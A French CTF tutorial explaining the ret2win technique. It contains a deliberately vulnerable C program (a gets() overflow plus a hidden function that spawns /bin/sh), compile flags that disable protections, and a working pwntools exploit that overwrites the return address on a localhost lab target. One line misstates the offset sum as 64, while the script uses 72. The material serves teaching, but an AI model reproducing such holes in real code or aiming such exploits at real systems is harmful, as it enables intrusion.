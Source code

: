 
***Définition:*** Un ret2Win est une sorte de challenge dans lequel le but est d'appeler une fonction qui va nous permettre d'avoir le flag lors d'un CTF. c'est donc le détournement d'un programme afin d'appelé une fonction cacher 

***Théorie***: Le ret2win consiste à exploiter un Buffer Overflow et donc d'écraser l'adresse de retour avec celle de la fonction qui nous permet de flag soit de gagner 

***Exemple***: 

```c
#include <pty.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void diagnostic_systeme() {
    char statut[32] = "Système : OK\n";
    printf("%s", statut);
}

void nettoyage_temporaire() {
    printf("Nettoyage des fichiers temporaires ...\n");
    system("echo 'Suppression des fichiers temporaires terminée.'");
}

void mise_a_jour_systeme() {
    printf("Vérification des mises à jour...\n");
    printf("Aucune mise à jour disponible.\n");
}

void redemarrage_systeme() {
    printf("Redémarrage du système en cours...\n");
}

void vuln() {
    char buffer[64];
    printf("Veuillez entrer le journal de maintenance :\n");
    gets(buffer); 
    printf("Journal enregistré : %s\n", buffer);
}

void menu_maintenance() {
    char choix[4]; 
    printf("\n=== Menu de Maintenance ===\n");
    printf("1. Diagnostic du système\n");
    printf("2. Nettoyage des fichiers temporaires\n");
    printf("3. Mise à jour du système\n");
    printf("4. Redémarrer le système\n");
    printf("5 Ajouter un journal de maintenance\n");
    printf("Choisissez une option : ");
    fgets(choix, sizeof(choix), stdin); 

    switch (atoi(choix)) { 
        case 1:
            diagnostic_systeme();
            break;
        case 2:
            nettoyage_temporaire();
            break;
        case 3:
            mise_a_jour_systeme();
            break;
        case 4:
            redemarrage_systeme();
            break;
        case 5:
            vuln();
            break;
        default:
            printf("Option invalide.\n");
    }
}


void fonction_secrete() {
    char *const args[] = {"/bin/sh", NULL};
    execve("/bin/sh", args, NULL);  
}


int main() {
    printf("=== Outil de Maintenance PC ===\n");
    printf("Bienvenue dans le programme de maintenance veuillez choisir une option.\n");
    menu_maintenance();
    printf("Fin du programme.\n");
    return 0;
}
```


Compiler avec : 
`gcc -o overflow -fno-stack-protector -z execstack -no-pie -Wno-implicit-function-declaration overflow.c`

Ce qui nous montre qu'aucune protection n'est activé. 

Pour exploiter ce challenge nous devrons donc faire plusieurs étape:
1. Comprendre ou est l'overflow 
	1. Trouver l'offset de l'overflow
2. Comprendre ce que fait la fonction cacher (Celle qui n'est pas appelé)
	1. Trouver l'adresse de la fonction qui nous permettra d'avoir le flag
3. Construire un exploit permettant d'écraser l'adresse de retour afin d'appelé la fonction caché

	***Information de l'exemple*** :
		1. Notre fonction cacher se nomme `fonction_secrete`
		2. L'overflow se trouve dans la fonction  vuln sur le buffer de 64 bytes:
		3. On constate que la fonction cacher appelle /bin/sh qui permet de trigger un shell

***Exploitation***:
	Pour trouver l'adresse:
			`nm ./binaire | grep "fonction_secrete"`
					Résultat: `0x401417 fonction_secrete	
	Pour trouver l'offset soit le nombre de caractère pour provoquer l'overflow nous pouvons,
		effectuer un  simple calcul 64 + 8 soit 64, la taille du buffer + la taille d'un registre  

Exploit Final:
```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

def main():
    # Connexion au programme
    p = remote("127.0.0.1", 1337)
    
    p.sendline(b'5')

    offset = 72  
    payload = b'A' * offset
    payload += p64(0x401417)
    
    p.sendline(payload)
    p.interactive()

if __name__ == '__main__':
    main()
```
